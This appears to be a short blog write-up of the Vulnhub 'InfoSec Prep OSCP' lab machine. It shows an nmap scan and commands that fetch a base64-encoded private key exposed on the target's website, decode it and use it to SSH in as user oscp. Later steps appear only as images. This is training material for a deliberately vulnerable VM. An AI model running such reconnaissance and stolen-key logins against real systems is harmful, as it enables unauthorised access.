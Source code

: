 ```yaml
---
layout: post
title: Vulnhub InfoSec Prep OSCP Writeup
---
```


Vulnhub writeup

https://www.vulnhub.com/entry/infosec-prep-oscp,508/

Start with a full nmap scan
```
nmap -A -p- -oA fullallport 192.168.0.15

Nmap scan report for 192.168.0.15
Host is up (0.00021s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: WordPress 5.4.2
| http-robots.txt: 1 disallowed entry 
|_/secret.txt
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: OSCP Voucher &#8211; Just another WordPress site
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|_    HY000
```
Discovered based64 encoded text on http://192.168.0.15/secret.txt which when decoded is a private key. On the website the user oscp is mentioned which we use to gain access via ssh.

```
wget -O secret.txt http://192.168.0.15/secret.txt
cat secret.txt | base64 -d > key.txt
chmod 600 key.txt
ssh -i key.txt oscp@192.168.0.15
```
Initial access

![ssh](/images/infosec1.png )

Linux Smart Enum scripts

![scripts](/images/infosec2.png )

Privilege Escalation

![esc](/images/infosec3.png )

